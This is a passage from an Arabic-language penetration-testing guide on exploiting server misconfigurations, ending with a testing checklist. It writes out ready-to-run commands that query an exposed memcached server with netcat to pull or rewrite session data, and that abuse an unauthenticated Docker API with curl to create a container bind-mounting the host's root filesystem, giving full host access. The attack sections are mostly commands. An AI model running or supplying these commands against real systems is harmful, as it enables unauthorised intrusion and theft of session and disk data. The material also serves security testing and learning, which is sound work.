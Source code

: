 ### 💥 الاستغلال:
```bash
echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc target.com 11211
```

أو:
```bash
memcstat --servers=target.com
```

### 📌 النتيجة:
- سحب بيانات الجلسات.
- إعادة كتابة بيانات الجلسة.

---

# 🧪 المحاولة #12: Docker API Access Without Auth

### ⚙️ الفكرة:
بعض الخوادم تعرض واجهة Docker REST API على المنفذ `2375` بدون مصادقة.

### 💥 الاستغلال:
```bash
curl http://target.com:2375/version
curl http://target.com:2375/containers/json
```

ثم إنشاء حاوية جديدة:
```bash
curl -X POST http://target.com:2375/containers/create -d '{"Image":"alpine","Cmd":["sh"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}'
```

### 📌 النتيجة:
- الوصول الكامل إلى نظام التشغيل.
- سحب بيانات من القرص.

---

## 📋 Checklist: هل تم اكتشاف Misconfigurations؟

| الطريقة | تم الاختبار؟ | ملاحظات |
|--------|--------------|----------|
| Unauthenticated DB | ✅ / ❌ |                     |
| Public S3 Bucket | ✅ / ❌ |                       |
| Default Credentials | ✅ / ❌ |                      |
| World Readable Files | ✅ / ❌ |                     |
| NFS Misconfig | ✅ / ❌ |                          |
| .git /.env exposure | ✅ / ❌ |                      |
| Debug Pages/APIs | ✅ / ❌ |                        |
| LDAP Anonymous Bind | ✅ / ❌ |                     |
| Memcached Exposure | ✅ / ❌ |                      |
| Docker API Access | ✅ / ❌ |                       |

---

